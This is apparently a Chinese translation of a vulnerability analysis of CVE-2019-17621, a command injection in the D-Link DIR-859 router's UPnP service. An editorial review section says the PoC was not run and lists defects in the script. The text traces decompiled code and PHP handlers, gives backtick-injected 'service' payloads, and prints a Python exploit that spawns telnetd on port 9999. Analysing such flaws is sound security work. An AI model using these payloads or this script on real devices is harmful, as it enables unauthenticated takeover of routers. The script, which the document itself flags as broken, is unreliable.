





# D-Link DIR-859 UPnP 命令注入（CVE-2019-17621）

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DIR859 MIPS32
- 本文讨论：CVE-2019-17621 service到SHELL_FILE自删除命令
- 版本、权限与配置前提：LAN可达UPnP49152、SUBSCRIBE及Callback，FW1.05/1.06b01Beta01
- 资料类型：UPnP GENA命令注入原研究译文；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

本篇保留为待核技术分析：正文有从 genacgi_main 到 PHP GENA 处理的调用链说明。原研究与厂商公告可以定位，文末旧脚本的转录和兼容性问题仍保留，不作为可直接运行或本库复现成功的证据。

### 逐项校订

- CVE连字符用en dash导致元数据未识别，非另一编号
- Python print(...).format在Python3取None、在Python2语法语义不同且raw_input限定Python2；sleep缩进断裂导致脚本不能直接运行
- Host拼接IP端口缺冒号，HTTP仅LF且service含空格，需标实际协议兼容条件
- 反编译伪代码有弯引号/非法声明，代码围栏没闭合，叙述混入代码
- 历史归档未列厂商修复矩阵；已补厂商公告入口，其他型号和修复分支仍应逐项核对，不泛化为公网可利用
- 已落实的文本修订：标题与正文证据对齐。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 文中删除动作会改变或移除账户/文件，可能中断业务；只在有可恢复快照的隔离环境核对前后状态
- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据
- 延时探针会占用线程或数据库连接；需记录基线和对照，单次慢响应或超时不足判定注入

### 待核与来源

- 2026-10-02 核对 [D-Link SAP10147](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147)：确认 DIR-859 v1.05 / v1.06B01 Beta01 的 LAN 侧 UPnP 命令执行问题；此依据不验证本文脚本。
- [原作者研究](https://medium.com/@s1kr10s/d-link-dir-859-rce-unautenticated-cve-2019-17621-en-d94b47a15104) 可由 D-Link SAP10146 的第三方报告链接追溯；其他型号、补丁适配、脚本运行及图证仍待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


**研究人员**
Miguel Mendez Z.-（s1kr10s）
Pablo Pollanco-（secenv）
**技术细节**
型号：DIR-859
固件版本：1.06b01 Beta01，1.05
架构：MIPS 32位
**脆弱性**
远程执行代码（未经身份验证，LAN）
受影响的产品
[](.resource/CVE-2019%E2%80%9317621D-LinkDIR-859rce/media/20191231194644-37bf165e-2bc3-1.png)
**漏洞分析**
在用于管理UPnP请求的代码中发现了远程执行代码漏洞。下面我们将简要描述UPnP协议。
**什么是UPnP？**
UPnP是专用网络中设备之间的通信协议。它的主要功能之一是自动自动打开端口，而无需用户为每个程序手动配置路由器。它在用于视频游戏的系统中特别有用，因为它是动态工作的，而且正如我们之前所说的，它是自主的。
回到分析，我们粗略地显示了二进制可执行文件/ htdocs / cgibin（固件文件DIR859Ax_FW106b01_beta01.bin和DIR859Ax_FW105b03.bin）中的genacgi_main（）函数，该漏洞包含使我们能够执行代码的漏洞，并且达到下图所示的代码所必须满足的条件。

[](.resource/CVE-2019%E2%80%9317621D-LinkDIR-859rce/media/20191231194805-67eeb0d2-2bc3-1.png)

如下所示，sprintf（）设置了一个包含所有值的缓冲区，包括带有值的参数“？service = *”，这就是我们将在此处跟踪的内容。
[](.resource/CVE-2019%E2%80%9317621D-LinkDIR-859rce/media/20191231194750-5f4f8afa-2bc3-1.png)
为了更好地了解漏洞的发生方式，我们在下面显示genacgi_main（）函数的反编译伪代码的一部分（为清楚起见，修改了变量名）。

```
/* The method has to be SUBSCRIBE to reach the buggy code */
metodo = getenv("REQUEST_METHOD”);
request_uri = getenv("REQUEST_URI”);
request_uri_0x3f = strchr(request_uri,0x3f);
cmp_service = strncmp(request_uri_0x3f,"?service=",9)
if (cmp_service != 0) {
     return -1; 
}
/* more code */
valor_subscribe = strcasecmp(metodo,"SUBSCRIBE");
request_uri_0x3f = request_uri_0x3f + 9;
if (valor_subscribe != 0) {
     /* more code */
}
server_id_3 = getenv("SERVER_ID");
http_sid_2 = getenv("HTTP_SID");
http_callback_2 = getenv("HTTP_CALLBACK");
http_timeout = getenv("HTTP_TIMEOUT");
http_nt_2 = getenv("HTTP_NT");
remote_addr = getenv("REMOTE_ADDR”);
/* more code */
if (cmp_http_callback == 0) {
     /* more code */
str_http_callback_0x2f = strchr(http_callback_2 + 7, 0x2f);
          if (str_http_callback_0x2f != (char *)0x0) {
               get_pid_1 = getpid();
/* vulnerable code */
               sprintf(buffer_8,"%s\nMETHOD=SUBSCRIBE\nINF_UID=%s\nSERVICE=%s\nHOST=%s\nURI=/%s\nTIMEOUT=%d\nREMOTE=%s\nSHELL_FILE=%s/%s_%d.sh", "/htdocs/upnp/run.NOTIFY.php", server_id_3, request_uri_0x3f, http_callback_2 + 7, str_http_callback_0x2f + 1, flag_2, remote_addr, "/var/run", request_uri_0x3f, get_pid_1);
/* send the data */
               xmldbc_ephp(0,0,buffer_8,(int)stdout);
}
/* more code */
```

然后，使用xmldbc_ephp（）（最终调用send（））将“ buffer_8”中包含的数据发送到PHP。

```
int xmldbc_ephp(int 0,int 0_,char *buffer_8,int stdout)
{
     size_t len_buffer;
     int ret_prepre;
     len_buffer = strlen(buffer_8);
     len_buffer._2_2_ = (short)len_buffer;
     ret_prepre = [send(socket,buffer_8,(uint)len_buffer,0x4000);]
     return ret_prepre;
}
```

如代码所示，URL是从环境变量“ REQUEST_URI”获得的，然后按以下方式验证其结构：

```
request_uri = "http://IP:PORT/*?service=file_name"
request_uri_0x3f = strchr(request_uri,0x3f);
————strchr()———— + 9 ———— we control the filename with the variable => request_uri_0x3f
```

通过调用strchr（）和strncmp（），代码检查是否存在值“ 0x3f”（=字符“？”）和字符串“？service = *”；之后，它将验证请求方法：如果调用SUBSCRIBE，则代码会将9个字节的偏移量添加到request_uri_0x3f指针，并将其放置在文件名所在的位置。初始化其他一些变量，最后使用sprintf（）连接许多变量的值，填充一个缓冲区，该缓冲区设置要传递的新变量，其中“ SHELL*FILE”以格式字符串“％s*％d.sh”传递”，用于为新的Shell脚本命名。
将数据复制到“ buffer_8”缓冲区后，将在内存中进行如下设置：
[](.resource/CVE-2019%E2%80%9317621D-LinkDIR-859rce/media/20191231195025-bb799abe-2bc3-1.png)
缓冲区中包含的数据现在由PHP文件“ run.NOTIFY.php”处理，在此再次验证请求方法。
文件：run.NOTIFY.php

```
$gena_path = XNODE_getpathbytarget($G_GENA_NODEBASE, "inf", "uid", $INF_UID, 1);
$gena_path = $gena_path."/".$SERVICE;
GENA_subscribe_cleanup($gena_path);
/* IGD services */
if ($SERVICE == "L3Forwarding1") 
$php = "NOTIFY.Layer3Forwarding.1.php";
else if ($SERVICE == "OSInfo1")            
$php = "NOTIFY.OSInfo.1.php";
else if ($SERVICE == "WANCommonIFC1")      
$php = "NOTIFY.WANCommonInterfaceConfig.1.php";
else if ($SERVICE == "WANEthLinkC1")       
$php = "NOTIFY.WANEthernetLinkConfig.1.php";
else if ($SERVICE == "WANIPConn1")         
$php = "NOTIFY.WANIPConnection.1.php";
/* WFA services */
else if ($SERVICE == "WFAWLANConfig1")
$php = "NOTIFY.WFAWLANConfig.1.php";
if ($METHOD == "SUBSCRIBE")
{
   if ($SID == "")
      GENA_subscribe_new($gena_path, $HOST, $REMOTE, $URI, $TIMEOUT, $SHELL_FILE, "/htdocs/upnp/".$php, $INF_UID);
   else
      GENA_subscribe_sid($gena_path, $SID,  $TIMEOUT);
}
else if ($METHOD == "UNSUBSCRIBE")
{
   GENA_unsubscribe($gena_path, $SID);
}
```

该脚本调用PHP函数“ GENA_subscribe_new（）”，并向其传递在cgibin程序的genacgi_main（）函数中获得的变量，包括“ SHELL_FILE”变量。如前面的genacgi_main（）代码所示，此变量用于设置文件名的一部分。
文件：gena.php，函数GENA_subscribe_new（）

```
function GENA_subscribe_new($node_base, $host, $remote, $uri, $timeout, $shell_file, $target_php, $inf_uid)
{
   anchor($node_base);
   $count = query("subscription#");
   $found = 0;
/* find subscription index & uuid */
   foreach ("subscription")
   {
      if (query("host")==$host && query("uri")==$uri)
      {
         $found = $InDeX; break;
      }
   }
if ($found == 0)
   {
      $index = $count + 1;
      $new_uuid = "uuid:".query("/runtime/genuuid");
   } else {
      $index = $found;
      $new_uuid = query("subscription:".$index."/uuid");
   }
/* get timeout */
   if ($timeout==0 || $timeout=="") {
      $timeout = 0; $new_timeout = 0;
   } else {
      $new_timeout = query("/runtime/device/uptime") + $timeout;
   }
/* set to nodes */
   set("subscription:".$index."/remote",    $remote);
   set("subscription:".$index."/uuid",        $new_uuid);
   set("subscription:".$index."/host",        $host);
   set("subscription:".$index."/uri",        $uri);
   set("subscription:".$index."/timeout",    $new_timeout);
   set("subscription:".$index."/seq", "1");
   GENA_subscribe_http_resp($new_uuid, $timeout);
   GENA_notify_init($shell_file, $target_php, $inf_uid, $host, $uri, $new_uuid);
}
如我们所见，“ GENA_subscribe_new（）”函数不会修改$ shell_file变量。
我们在这里可以看到两个函数：“ GENA_subscribe_http_resp（）”，它仅加载要在UPnP响应中传递的标头；“ GENA_notify_init（）”，其接收“ $ shell_file”变量，我们一直在跟踪。
文件：gena.php，函数GENA_notify_init（）

```cpp
function GENA_notify_init($shell_file, $target_php, $inf_uid, $host, $uri, $sid)
{
  $inf_path = XNODE_getpathbytarget("", "inf", "uid", $inf_uid, 0);
  if ($inf_path=="")
  {
     TRACE_debug("can't find inf_path by $inf_uid=".$inf_uid."!");
    return "";
  }
  $phyinf = PHYINF_getifname(query($inf_path."/phyinf"));
  if ($phyinf == "")
  {
    TRACE_debug("can't get phyinf by $inf_uid=".$inf_uid."!");
    return "";
  }
$upnpmsg = query("/runtime/upnpmsg");
if ($upnpmsg == "") $upnpmsg = "/dev/null";
fwrite(w, $shell_file,
"#!/bin/sh\n".
'echo "[$0] ..." > '.$upnpmsg."\n".
"xmldbc -P ".$target_php.
  " -V INF_UID=".$inf_uid.
  "-V HDR_URL=".$uri.
  " -V HDR_HOST=".$host.
  " -V HDR_SID=".$sid.
  " -V HDR_SEQ=0".
  " | httpc -i ".$phyinf." -d \"".$host."\" -p TCP > ".$upnpmsg."\n"
);
fwrite(a, $shell_file, "rm -f ".$shell_file."\n"); /* Here, the code is injected as filename */
}
```

这是“ SHELL_FILE”最终结束的地方。它用作通过调用PHP函数“ fwrite（）”创建的新文件的名称的一部分。此函数使用了两次：第一个创建文件，从我们控制的SHELL_FILE变量中获取文件名，并连接getpid（）的输出，如下所示：

```
Request: http://IP:PORT/*?service=file_name
System: /var/run/nombre_archivo_13567.sh
```

第二次对“ fwrite（）”的调用将向该文件添加新行，其中包含对“ rm”系统命令的调用以删除自身。
为了利用这一点，我们只需要插入一个用反引号引起的系统命令（$ command），然后将其注入到shell脚本中，并为我们提供RCE；“ rm”命令将失败，因为文件名字符串将被“ rm”返回的输出（空字符串）替换。

```
Request: http://IP:PORT/*?service=`ping 192.168.0.20`
System: /var/run/`ping 192.168.0.20`_13567.sh
Run: rm -f `ping 192.168.0.20`_13467.sh
```

利用PoC
综上所述，我们编写了一个功能脚本来利用此RCE。

```
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)
sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = raw_input('IP Router: ')
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

借助此漏洞，我们接下来可以启动telnet服务以维持访问权限。Boom！
[](.resource/CVE-2019%E2%80%9317621D-LinkDIR-859rce/media/20191231195458-5e5304fa-2bc4-1.png)
视频
https://youtu.be/Q1HC5ExoE30
分析和利用：[路由器D-LINK RCE](https://github.com/s1kr10s/D-Link-DIR-859-RCE)

原文地址：https://medium.com/@s1kr10s/d-link-dir-859-rce-unautenticated-cve-2019-17621-en-d94b47a15104

## 公开验证资料补证（2026-10-03）

固定提交的 Metasploit 主文件提供完整 `SUBSCRIBE` 请求构造与命令执行阶段，可补充上文历史 Python 转录缺损的证据。其入口仍为 `/gena.cgi` 的 `service` 参数，要求 `Callback`、`NT: upnp:event` 和 `Timeout` 等请求头；使用反引号命令替换，与上文跟踪到 `SHELL_FILE` 自删除命令的根因一致。公开模块默认访问49152端口，生成MIPSBE命令暂存器及后续会话；这不是默认对公网可达的证明。

CNA明确列出DIR-859 1.05和1.06B01 Beta01、来自本地网络的UPnP请求。这里不把其他D-Link型号或固件自动加入。预期可验证结果是所提交命令在设备进程权限下执行并产生相应结果/会话，而不是SUBSCRIBE返回某个状态码就算成功。模块会下载或写入载荷，并可能产生回连；需要核对脚本、文件及会话残留。

上文的Python缩进、HTTP构造等历史问题保持原文；新来源不代表修好了那份脚本，也不代表本库运行过任一PoC。

- 已全文阅读的固定技术主文件：https://github.com/rapid7/metasploit-framework/blob/5e598d5233bebecef2a44904a286769d83d31d12/modules/exploits/linux/upnp/dlink_dir859_subscribe_exec.rb
- 已读取描述和引用的CNA记录：https://github.com/CVEProject/cvelistV5/blob/76db341685347c82b67f7ce70b1a286e94270b43/cves/2019/17xxx/CVE-2019-17621.json
